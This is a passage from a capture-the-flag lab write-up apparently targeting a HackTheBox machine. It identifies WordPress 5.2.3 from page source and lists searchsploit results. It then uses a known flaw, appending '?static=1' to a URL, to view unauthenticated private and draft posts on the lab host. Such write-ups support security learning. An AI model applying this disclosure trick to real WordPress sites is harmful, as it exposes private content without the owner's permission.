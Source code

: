 ## Wordpress exploits
Now lets inspect the contents.
At the bottom we see that this is wordpress version 5.2.3
```html
...
</div> 

<script type='text/javascript' src='http://office.paper/wp-content/themes/techup/assets/js/owl.carousel.js?ver=5.2.3'></script>
<script type='text/javascript' src='http://office.paper/wp-content/themes/techup/assets/js/jquery.magnific-popup.js?ver=5.2.3'></script>
<script type='text/javascript' src='http://office.paper/wp-content/themes/techup/assets/js/custom.js?ver=5.2.3'></script>
<script type='text/javascript' src='http://office.paper/wp-content/themes/techup/assets/js/navigation.js?ver=5.2.3'></script>
<script type='text/javascript' src='http://office.paper/wp-includes/js/wp-embed.min.js?ver=5.2.3'></script>

</body>
</html>
```

Lets do a quick searchsploit for this
```
┌──(kali㉿kali)-[~/Documents/htb/paper]
└─$ searchsploit wordpress 5.2.3
-------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title  Path
-------------------------------------------------------------------------------------------------------------------------------------------------
WordPress Core 5.2.3 - Cross-Site Host Modification                                                | php/webapps/47361.pl
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                            | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                            | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                          | php/webapps/44943.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                        | php/webapps/48918.sh
--------------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results
```
XXS is probably not the right way to go, and DDOSing isn't really our goal, and the others doesn't seem to fit. Therefore we are left with 47690. Lets check it out:
```bash
┌──(kali㉿kali)-[~/Documents/htb/paper]
└─$ searchsploit -x 47690

So far we know that adding `?static=1` to a wordpress URL should leak its secret content
Here are a few ways to manipulate the returned entries:
- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format
In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```
So just by appending ?static=1 to the end of the url, we get to see all of the content. `http://office.paper/?static=1`